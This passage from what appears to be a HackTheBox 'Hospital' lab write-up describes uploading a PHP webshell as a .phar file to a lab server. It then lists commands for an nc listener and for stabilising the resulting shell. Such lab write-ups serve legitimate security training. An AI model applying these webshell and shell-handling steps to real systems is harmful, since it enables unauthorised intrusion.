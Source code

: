 The webshell is discovered at http://hospital.htb:8080/uploads/myfile.phar, where the '.phar' extension was identified as the one capable of executing php code among various other extensions attempted.

![p0wny shell on linux server](/assets/img/htb/hospital/p0wny_shell_1.png)

Gaining access to the Linux server that hosts http://hospital.htb:8080.

For a stable shell do:

- nc -lnvp 443

- script /dev/null -c bash

- (ctrl+z)

- stty raw -echo ; fg

- reset xterm (then press enter)

- export TERM=xterm

- export SHELL=bash

Upon reviewing the 'ifconfig' output, it is determined that the attacker is located within a separate network, as indicated by the 'eth0 inet' IP address.

![ifconfig output](/assets/img/htb/hospital/ifconfig_ouptut_1.png)
